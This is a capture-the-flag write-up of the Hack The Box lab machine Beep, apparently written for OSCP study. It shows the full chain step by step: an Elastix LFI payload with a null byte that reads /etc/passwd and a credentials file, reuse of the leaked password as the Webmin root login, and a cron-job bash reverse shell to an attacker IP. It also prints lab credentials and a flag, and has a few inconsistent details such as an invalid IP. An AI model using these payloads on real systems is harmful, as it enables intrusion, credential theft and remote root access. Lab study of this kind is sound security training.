

# HTB Beep - Complete Walkthrough

**Tags:** #HTB #Beep #Elastix #LFI #Webmin #Linux #PenetrationTesting #OSCP #EasyBox #CredentialReuse #ReverseShell #CronJob #PrivilegeEscalation #CentOS #OldSoftware #TLS #SSL #Firefox

**Search Keywords:** HTB Beep walkthrough, Elastix LFI, Webmin exploit, Beep root, Beep writeup, HackTheBox Beep solution, Elastix 2.2.0 exploit, amportal.conf credentials, LFI null byte, cron job reverse shell

---

## 📌 Box Information

| Property | Value |
|----------|-------|
| **Box Name** | Beep |
| **Machine IP** | 10.129.229.183 |
| **Difficulty** | Easy |
| **Release Date** | 15 Mar 2017 |
| **Retire Date** | 26 May 2017 |
| **OS** | Linux (CentOS 5) |
| **Creator** | ch4p |
| **User Rating** | 23d 18:30:10 |
| **Root Rating** | 23d 18:30:24 |

---

## 📋 Table of Contents

1. [Initial Enumeration](#initial-enumeration)
2. [Web Enumeration](#web-enumeration)
3. [Firefox TLS Troubleshooting](#firefox-tls-troubleshooting)
4. [Local File Inclusion (LFI)](#local-file-inclusion-lfi)
5. [Webmin Access](#webmin-access)
6. [Getting Root Shell](#getting-root-shell)
7. [Flags](#flags)
8. [Complete Attack Path](#complete-attack-path)
9. [Bookmarks & Resources](#bookmarks--resources)

---

## Phase 1: Initial Enumeration

### Step 1: Nmap Full Port Scan

**Bookmarks Used:** None

**Command:**
```bash
sudo nmap -sC -sV -p- -T4 10.129.229.183 -oA full_nmap
```

**Result:**
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
```

**📸 Screenshot:** [Place Nmap scan results here]

### Step 2: Observations from Nmap

| Service | Version | Notes |
|---------|---------|-------|
| Apache | 2.2.3 | Very old - CentOS 5 |
| Elastix | - | PBX software on port 443 |
| Webmin | 1.570 | System administration on port 10000 |
| Asterisk | 1.1 | Call Manager on port 5038 |
| OpenSSH | 4.3 | Outdated version |

---

## Phase 2: Web Enumeration

### Step 3: Directory Bruteforcing

**Bookmarks Used:** None (Using gobuster)

**Command:**
```bash
gobuster dir -u https://10.129.229.183 -w /usr/share/wordlists/dirb/common.txt -k -t 50 -x php,html,txt
```

**Result:**
```
/admin                (Status: 301) [--> https://10.129.229.183/admin/]
/configs              (Status: 301) [--> https://10.129.229.183/configs/]
/config.php           (Status: 200) [Size: 1785]
/help                 (Status: 301) [--> https://10.129.229.183/help/]
/images               (Status: 301) [--> https://10.129.229.183/images/]
/index.php            (Status: 200) [Size: 1785]
/lang                 (Status: 301) [--> https://10.129.229.183/lang/]
/libs                 (Status: 301) [--> https://10.129.229.183/libs/]
/mail                 (Status: 301) [--> https://10.129.229.183/mail/]
/modules              (Status: 301) [--> https://10.129.229.183/modules/]
/panel                (Status: 301) [--> https://10.129.229.183/panel/]
/register.php         (Status: 200) [Size: 1785]
/robots.txt           (Status: 200) [Size: 28]
/static               (Status: 301) [--> https://10.129.229.183/static/]
/themes               (Status: 301) [--> https://10.129.229.183/themes/]
/var                  (Status: 301) [--> https://10.129.229.183/var/]
/vtigercrm            (Status: 301) [--> https://10.129.229.183/vtigercrm/]
```

**📸 Screenshot:** [Place gobuster results here]

### Step 4: Key Discovery

**Critical Finding:** `/vtigercrm/` directory found - This is the path for the LFI exploit!

---

## Phase 3: Firefox TLS Troubleshooting

### Step 5: The Problem

When trying to access `https://10.129.229.183`, Firefox shows:
> "Your connection is not secure" or SSL/TLS errors

**Bookmarks Used:** None - System configuration

### Step 6: Solution - Enable Deprecated TLS

**Bookmarks Used:** None (Configuration guide)

**Steps:**

1. In Firefox address bar, type:
   ```
   about:config
   ```

2. Click **"Accept the Risk and Continue"**

3. Search for:
   ```
   security.tls.version.enable-deprecated
   ```

4. Toggle to **true** (double-click)

5. Restart Firefox

**📸 Screenshot:** [Place about:config screenshot here]

**Why this works:** The server only supports TLSv1.0 and SSLv3, which modern browsers disable by default.

### Step 7: Add Security Exception

1. Go to `https://10.129.229.443`
2. Click **"Advanced"**
3. Click **"Add Exception..."**
4. Click **"Confirm Security Exception"**

**📸 Screenshot:** [Place security exception screenshot here]

### Step 8: Alternative - Use curl with TLSv1.0

**Bookmarks Used:** None

**Command:**
```bash
curl -k --tlsv1.0 "https://10.129.229.183" 2>/dev/null
```

- `-k` = ignore certificate errors
- `--tlsv1.0` = force TLS 1.0

---

## Phase 4: Local File Inclusion (LFI)

### Step 9: Search for Elastix Exploits

**Bookmarks Used:** Exploit-DB

**Command:**
```bash
searchsploit elastix
```

**Result:**
```
---------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                         | Path
---------------------------------------------------------------------------------------------------------
Elastix - 'page' Cross-Site Scripting                                                                  | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                          | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                       | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                      | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                     | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                 | php/webapps/18650.py
---------------------------------------------------------------------------------------------------------
```

**📸 Screenshot:** [Place searchsploit results here]

### Step 10: Examine LFI Exploit

**Command:**
```bash
searchsploit -x exploits/php/webapps/37637.pl
```

**Key Finding:** The exploit uses `/vtigercrm/graph.php` with `current_language` parameter and `%00` null byte truncation.

**Why %00 works:** PHP versions before 5.3 accept `%00` as a string terminator, allowing LFI bypass.

### Step 11: Test LFI - Read /etc/passwd

**Bookmarks Used:** HackTricks (LFI reference), PayloadAllTheThings (LFI payloads)

**Command:**
```bash
curl -k --tlsv1.0 "https://10.129.229.183/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" 2>/dev/null
```

**Result:**
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
amandabackup:x:33:33:Amanda user:/var/lib/amanda:/bin/bash
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
asterisk:x:100:101:Asterisk PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
```

**📸 Screenshot:** [Place /etc/passwd output here]

### Step 12: Identify Important Users

Users found:
- `asterisk` - PBX user
- `spamfilter` - Spam filter user
- `fanis` - Regular user (likely where user flag is)
- `cyrus` - IMAP user

### Step 13: Read amportal.conf (Credentials File)

**Bookmarks Used:** HackTricks (common config files)

**Command:**
```bash
curl -k --tlsv1.0 "https://10.129.229.183/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" 2>/dev/null
```

**Result:**
```
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

**📸 Screenshot:** [Place amportal.conf output here]

### Step 14: Save the Credentials

```
Username: root
Password: jEhdIekWmdjE
```

---

## Phase 5: Webmin Access

### Step 15: Access Webmin Login

**Bookmarks Used:** None

1. Open Firefox (with TLS fix applied)
2. Go to: `https://10.129.229.183:10000`
3. Add security exception

**📸 Screenshot:** [Place Webmin login page here]

### Step 16: Login to Webmin

| Field | Value |
|-------|-------|
| **Username** | `root` |
| **Password** | `jEhdIekWmdjE` |

**📸 Screenshot:** [Place Webmin dashboard here]

### Step 17: Webmin Dashboard Overview

After login, you'll see the Webmin dashboard with categories:
- **System**
- **Servers**
- **Others**
- **Networking**
- **Hardware**
- **Cluster**

---

## Phase 6: Getting Root Shell

### Step 18: Create Scheduled Cron Job

**Bookmarks Used:** Revshells (reverse shell one-liner)

1. In Webmin, go to **System** → **Scheduled Cron Jobs**

**📸 Screenshot:** [Place Cron Jobs page here]

2. Click **"Create a new scheduled cron job"**

**📸 Screenshot:** [Place cron job creation form here]

### Step 19: Configure Cron Job

| Setting | Value |
|---------|-------|
| **Execute as user** | `root` |
| **Command** | `bash -c 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'` |
| **When to execute** | Select "Now" or set for 1 minute |

**Note:** Replace `10.10.14.7` with your Kali machine's IP address.

**📸 Screenshot:** [Place filled cron job form here]

### Step 20: Start Listener

**Bookmarks Used:** None

**Command:**
```bash
sudo nc -lvnp 4444
```

**📸 Screenshot:** [Place netcat listening here]

### Step 21: Get Reverse Shell

When the cron job executes, you'll receive a connection:

```
Listening on 0.0.0.0 4444
Connection received on 10.129.229.183 39747
bash: no job control in this shell
[root@beep ]# 
```

**📸 Screenshot:** [Place reverse shell connection here]

### Step 22: Verify Root Access

**Commands:**
```bash
[root@beep ]# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

[root@beep ]# whoami
root
```

**📸 Screenshot:** [Place id output here]

---

## Phase 7: Flags

### Step 23: Get Root Flag

**Commands:**
```bash
[root@beep ]# cd /root
[root@beep ~]# ls
anaconda-ks.cfg
elastix-pr-2.2-1.i386.rpm
install.log
install.log.syslog
postnochroot
root.txt
webmin-1.570-1.noarch.rpm

[root@beep ~]# cat root.txt
f2355c8d2dd29b7f95aaeade767c6714
```

**📸 Screenshot:** [Place root flag here]

### Step 24: Get User Flag

**Command:**
```bash
[root@beep ~]# cat /home/fanis/user.txt
[USER_FLAG_HERE]
```

**📸 Screenshot:** [Place user flag here]

---

## 📝 Complete Attack Path



---

## 📚 Bookmarks & Resources Used

| Bookmark | When Used | How Used |
|----------|-----------|----------|
| **Exploit-DB** | Phase 4 | searchsploit elastix to find LFI exploit |
| **HackTricks** | Phase 4 | LFI techniques, %00 null byte reference |
| **PayloadAllTheThings** | Phase 4 | LFI payload patterns |
| **Revshells** | Phase 6 | Reverse shell one-liner for cron job |
| **GTFObins** | (Not used) | Alternative privesc reference |
| **HTB Machine Finder** | (Not used) | Pre-machine reconnaissance |
| **Awesome-Pentest** | (Reference) | General methodology |

---

## 🛠️ Troubleshooting Guide

### Issue 1: Firefox Won't Connect

**Problem:** "Your connection is not secure" or SSL errors

**Solution:**
1. Type `about:config` in Firefox
2. Set `security.tls.version.enable-deprecated` to `true`
3. Add security exception for the site

**📸 Screenshot:** [Place about:config screenshot here]

### Issue 2: curl SSL Errors

**Problem:** `TLS connect error: error:0A000102:SSL routines::unsupported protocol`

**Solution:**
```bash
curl -k --tlsv1.0 [URL]
```

### Issue 3: Webmin "Requires Java" Error

**Problem:** File Manager requires Java

**Solution:** Use Command Shell instead
- Go to: `https://10.129.229.183:10000/shell/`
- Or use System → Command Shell

---

## 🏆 Flags Summary

| Flag | Location | Value |
|------|----------|-------|
| **User Flag** | `/home/fanis/user.txt` | [USER_FLAG] |
| **Root Flag** | `/root/root.txt` | `f2355c8d2dd29b7f95aaeade767c6714` |

---

## 💡 Key Takeaways

| Takeaway | Description |
|----------|-------------|
| **Always check for LFI** | Older applications are often vulnerable to LFI |
| **Credential reuse is common** | Same password used across multiple services |
| **Webmin is powerful** | Webmin admin access = root access |
| **Old software = vulnerabilities** | Apache 2.2.3, Elastix 2.2.0 are both vulnerable |
| **Multiple paths** | Beep has at least 5 different ways to root |
| **Null byte injection** | `%00` works on old PHP versions |
| **TLS troubleshooting** | Older servers may need TLS 1.0/SSLv3 |

---

## 🔐 Security Lessons

1. **Disable old TLS versions** - Servers should not support TLSv1.0/SSLv3
2. **Update software** - Apache 2.2.3 and Elastix 2.2.0 are outdated
3. **Don't reuse passwords** - Same password across services is dangerous
4. **Protect Webmin** - Webmin should not be publicly accessible or use weak creds
5. **Sanitize user input** - `%00` null byte injection should be prevented
6. **Limit sudo permissions** - Asterisk user had too many sudo privileges

---

## 📖 Further Reading

- [Elastix LFI Exploit (Exploit-DB)](https://www.exploit-db.com/exploits/37637)
- [Webmin Vulnerabilities (CVE)](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=webmin)
- [HTB Beep Official Writeup](https://www.hackthebox.com/achievement/machine/1464000/10)

---

**🎉 Congratulations on completing HTB Beep!**

*This walkthrough was created for educational purposes as part of the OSCP preparation journey.*